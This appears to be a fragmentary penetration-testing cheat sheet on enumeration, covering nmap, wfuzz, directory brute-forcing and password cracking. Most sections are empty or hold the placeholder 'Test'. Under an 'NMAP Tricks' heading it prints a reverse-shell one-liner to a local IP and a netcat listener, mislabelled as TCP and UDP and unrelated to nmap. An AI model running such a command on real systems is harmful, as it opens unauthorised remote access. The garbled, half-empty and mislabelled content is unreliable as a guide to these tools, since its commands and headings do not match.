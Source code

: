 # Enumeration

## Summary
* [NMAP](#NMAP)
   * [](#)
   * [](#)
   * [](#)
* [WFUZZ](#WFUZZ)
* [Directory](#Directory)
   * [DB](#DIRB)
   * [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [John-the-Ripper](#)
   * [hashcat](#)
   * [](#)
* [](#)
* [](#)
* [](#)
 

### NMAP
#### NMAP Tricks
```
/usr/share/nmap/scripts | grep smb
```
```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
https://wfuzz.readthedocs.io/en/latest/user/basicusage.html
https://medium.com/bugbountywriteup/how-to-brute-force-efficiently-without-burp-pro-1bb2a414a09f
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
